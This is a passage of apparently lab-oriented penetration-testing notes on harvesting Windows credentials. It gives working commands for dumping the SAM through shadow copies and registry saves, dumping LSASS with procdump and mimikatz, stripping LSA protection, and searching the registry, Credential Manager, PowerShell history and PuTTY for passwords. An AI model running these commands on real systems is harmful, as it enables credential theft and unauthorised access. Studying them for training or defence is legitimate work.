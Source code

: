 # Credentials Harvesting

## Local Windows Credentials

### Dumping the SAM

#### Metasploit HashDump

Gets a copy of the content of the SAM database by using in-memory code inejction the LSSAS.exe process.

`meterpreter > hashdump`

#### Volume Shadow Copy Service

A native service that helps perform volume backup while application read/write on volumes. (Note: needs administrator privileges).

1. `C:\Users\Administrator>wmic shadowcopy call create Volume='C:'` to create a copy of shaodw of `C:` Drive
2. `vssadmin list shadows` to confirm that we have a shadow copy of `C:`&#x20;
3. The SAM database is encrypted with RC4 or AES, so we need the decryption key which is stored in `c:\Windows\System32\Config\system`&#x20;
   1. `copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam`&#x20;
   2. `copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system`&#x20;

#### Registry Hives

Windows Registry stored a copy of some of the SAM database contents to be used by window services.

1. Save both decryption files for the decryption key
   1. `reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg`&#x20;
   2. `reg save HKLM\system C:\users\Administrator\Desktop\system-reg`&#x20;
2. `python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL` to use Impact `secretsdump.py` to decrypt. Specified `LOCAL` to specify that this is the LOCAL SAM

### Dumping the LSASS

#### GUI

To dump any running Windows process using the GUI, open Task Manager and from the Details tab right-click on a process to "Create dump file".

#### Sysinternals Suite

Using ProcDump we can dump the lsass given that the Sysinternals Suite is installed.

`procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump`

{% hint style="info" %}
Dumping the LSASS process is a known technique easily caught by AVs. AV bypasses need to implemented in the real world to perform such an action.
{% endhint %}

#### MimiKatz

`mimikatz.exe` to run the mimikatz binary **(Note: must be run as `SYSTEM` or local administrator).**

`privilege::debug` to enable the `SeDebugPrivilege` privilege and check the current permissions for memory access.

`sekurlsa::logonpasswords` to dump all cached passwords and hashes from the `lsass.exe`

**Protected LSASS**

Since 2012, the LSASS has been protected from being accessed to extract credentials from memory.

`!+` in mimikatz to run the `mimidrv.sys` driver that runs at the kernel to disaable the LSA protection

`!processprotect /process:lsass.exe /remove` to disable the protection.

### Windows Credential Manager

Accessible via a GUI in the Control Panel. But also via the command prompt.

`vaultcmd /list` to enumerate which windows vaults exist

`VaultCmd /listproperties:"VAULT"` to view if there are any stored credentials

`VaultCmd /listcreds:"Web Credentials"` to view more information about it

#### Dumping the WCM

Must use PowerShell Scripts such as the [`Get-WebCredentials.ps1`](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)&#x20;

#### RunAs

Allows users to run Windows applications under different users' permissions.&#x20;

`cmdkey /list`  as another way to enumerate the stored credentials, can use `/list:computername` as well

`runas /savecred /user:THM.red\thm-local cmd.exe` to run the cmd.exe as thm-local user

## Quick Wins

#### Powershell History

`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`&#x20;

#### Saved Windows Credentials

`cmdkey /list` lists all credentials stored in the Windows Credential Manager (Note: won't allow you to view them directly)

`runas /savecred /user:admin cmd.exe` run a cmd.exe as the user stored in the Credential Manager

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v keyword` to view if auto-log on is stored in the Windows registry

`reg query HKLM /f "password" /t REG_SZ /s` to search the registry for anything related to the password

#### Internet Information Services (IIS) Configuration

Is responsible for the default web server on Windows installs. Will sometimes store password for databases or configurated authentications.

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

#### Retrieve Credentials from software

PuTTY (SSH client on windows): stores connection parameters such as IPs and SSH passwords. Only accessible with Proxy  `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
